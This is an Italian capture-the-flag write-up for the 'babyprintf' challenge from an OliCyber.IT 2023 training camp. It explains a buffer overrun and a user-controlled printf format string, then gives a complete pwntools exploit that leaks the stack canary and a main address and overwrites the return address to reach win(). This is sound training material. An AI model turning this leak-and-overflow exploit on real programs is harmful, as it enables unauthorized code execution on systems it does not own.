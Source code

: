 # OliCyber.IT 2023 - Simulazione training camp 2

## [binary] babyprintf (21 risoluzioni)

La challenge fa echo di ogni stringa inserita. Le vulnerabilità nel programma sono un buffer overrun, dato che il numero di byte letti è maggiore della dimensione del buffer (300 vs 32), e una printf con formattatore definito dall'utente.

Il programma contiene una win function che bisogna arrivare a chiamare.

### Soluzione

Usando la printf si possono leakare dallo stack il canary del programma e un indirizzo a main. Con un offset dall'indirizzo di main ottenuto si arriva all'indirizzo della funzione `win()`, che stampa la flag.

Una volta ottenuti i valori necessari basta sovrascrivere il canary e l'indirizzo di ritorno con il buffer overrun, e poi triggerare l'uscita da main scrivendo `!q`

### Exploit

```python
#!/bin/python3

import os
from pwn import *
import logging
logging.disable()

HOST = os.environ.get("HOST", "xxx.challs.olicyber.it")
PORT = int(os.environ.get("PORT", 34001))

io = remote(HOST, PORT)

mem = [b""] * 100

io.recvuntil(b"back:")
for i in range(100):
    io.sendline(f"%{i}$p")
    mem[i] = io.recvline()

cs = mem[12]
canary = eval(cs)

ms = mem[16]
main = eval(ms)
win = main - 54

log.success(f"canary: {hex(canary)}")
log.success(f"main: {hex(main)}")
log.success(f"win: {hex(win)}")

io.sendline(fit({
    32: p64(canary)*2 + p64(win) * 3
}))

io.sendline(b"!q")

f = io.recvline()
f += io.recvline(timeout=0.1)
f += io.recvline(timeout=0.1)

assert "flag" in f

print(f)

```
